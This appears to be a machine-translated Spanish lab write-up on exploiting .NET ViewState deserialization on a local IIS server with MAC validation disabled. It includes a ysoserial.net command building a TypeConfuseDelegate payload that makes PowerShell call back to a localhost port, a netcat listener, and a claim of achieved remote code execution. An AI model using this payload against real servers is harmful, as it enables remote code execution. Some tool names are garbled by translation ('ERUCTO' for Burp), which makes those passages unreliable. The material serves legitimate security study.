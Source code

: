 * Si configuró el servidor correctamente, reinicie la PC y vaya a http://127.0.0.1
* open burp para observar el tráfico HTTP

En el directorio wwwroot, crearemos 3 archivos:

```
- hello.aspx (the frontend logic)
- hello.aspx.cs (backend)
- web.config (the IIS standard config file)
```

![[Pasted image 20240311155331.png]]

![[Pasted image 20240311155348.png]]
![[Pasted image 20240311155406.png]]

El resultado es un área de texto, al hacer clic en el botón se muestra el texto que escribiste

* El archivo web.config indica al servidor web que no requiera la validación MAC del parámetro \_\_VIEWSTATE
* Esto nos permite manipular el parámetro y el servidor intentará deserializarlo de todos modos

#### Prueba de burpsuite <a href="#test-burp" id="test-burp"></a>

Ve a la página, haz clic en el botón con algo de texto y captúralo en ERUCTO

* Envíe la solicitud a **Repeater** y navegue hasta la pestaña **ViewState** en Burp
* ¡Eructar muestra información de que MAC no está habilitado!

Generemos una carga útil usando **ysoserial.net** y la coloquemos en el parámetro viewstate. La carga útil realizará una solicitud HTTP simple, ya que este es el enfoque adecuado antes de probar cargas útiles RCE más específicas

```
ysoserial.exe -o base64 -g TypeConfuseDelegate -f ObjectStateFormatter -c "powershell.exe Invoke-WebRequest -Uri http://127.0.0.1:9000/abcdabcdabcd"
```

Podemos ver que el agente de escucha netcat recibió una solicitud de Windows Powershell:

```
nc -lvnp 9000
```

La respuesta del servidor contiene el código de error 500; Sin embargo, se ejecuta powershell. Usando la herramienta Process Hacker podemos confirmar que, efectivamente, IIS generó el proceso de PowerShell

> Hemos logrado RCE a través de la deserialización de .NET VIEWSTATE

**2ª prueba - Se modificó el archivo .cs**

![[Pasted image 20240311155425.png]]

ahora podemos ver en BURP que el parámetro VIEWSTATE ya no está presente en las solicitudes del sitio web
